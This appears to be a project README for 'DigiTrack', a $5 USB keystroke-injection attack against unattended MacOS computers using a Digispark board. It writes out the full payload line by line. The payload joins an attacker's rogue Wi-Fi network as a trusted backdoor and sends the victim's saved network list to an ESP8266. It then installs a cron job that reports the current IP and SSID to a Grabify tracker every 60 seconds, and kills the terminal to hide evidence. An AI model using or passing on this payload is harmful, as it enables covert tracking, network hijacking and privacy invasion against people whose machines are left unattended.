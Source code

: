 # DigiTrack

In 30 seconds, this attack can learn which networks a MacOS computer has connected to before, and plant a script that tracks the current IP address and Wi-Fi network every 60 seconds.

![alt text](https://i.imgur.com/Logh8XA.jpg "ESP8266 & Digispark")

## Now includes: Hardtracker - Digispark VPN buster to send the IP address and BSSID/SSID of nearby Wi-Fi networks on a MacOS computer to a Grabify tracker every 60 seconds.

This is a $5 attack that does a couple things:

1) Inserts a Wi-Fi backdoor onto a victim computer, allowing you to capture the victim's data connection at any time when you are in Wi-Fi range.
2) Steals a list of every network the victim has ever connected to (for tracking, classifying, and hijacking data connection)
3) Inserts a tracking job that send the IP address and currently connected network to a Grabify link every 60 seconds.


Attack goes: A victim leaves a MacOS computer unattended for 30 seconds. The attacker inserts a DigiSpark board loaded with an attack payload. The payload looks like this (with delays and single key strokes removed):


 ### DigiKeyboard.print("networksetup -setairportnetwork en0 'sneakernet' 00000000"); 
  - We add the network "Sneakernet" to our trusted network list and connect to it.
  
###  DigiKeyboard.print("curl -m 10 --silent --output /dev/null -X POST -H \"Content-Type: text/plain\" --data \"$(networksetup -listpreferredwirelessnetworks en0)\" 192.168.4.1 &");
  - After connecting, we send a CURL request listing every single network the MacOS computer has connected to in the past to the esp8266 creating the "Sneakernet" network. The & puts the process in the background in case it takes too long, and the -m sets a timer of 10 seconds to prevent it taking too long. Now we know which Wi-Fi networks the victim has joined, and which networks will force the computer to connect without asking.
  
###  DigiKeyboard.print("export VISUAL=nano; crontab -e");
  - We create a job that will execute every 60 seconds
  
 ### DigiKeyboard.print("* * * * * curl --silent --output /dev/null --referer \"$(/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -I | awk '/ SSID/ {print substr($0, index($0, $2))}')\"  https://grabi/YOURLINK");
 - We suppress the output of CURL, and grab the network name of the currently connected Wi-Fi network. We sent this along with a CURL request to a tracking URL, delivering the target's IP address and currently connected Wi-Fi network every 60 seconds.
  
###  DigiKeyboard.print("wait && kill -9 $(ps -p $PPID -o ppid=)");
  - Finally, we wait for all background processes to finish, and kill the shit out of the terminal window to hide the evidence.

Total run time is about 30 seconds, not including the few seconds the Digisparks waits for a sketch to upload.

Notes: Grabify may go into "I'm under attack" mode and not allow checkin. Look for this line:
div class="cf-browser-verification cf-im-under-attack"
  
 If you see it, then the IP address is being blocked by cloudflare.
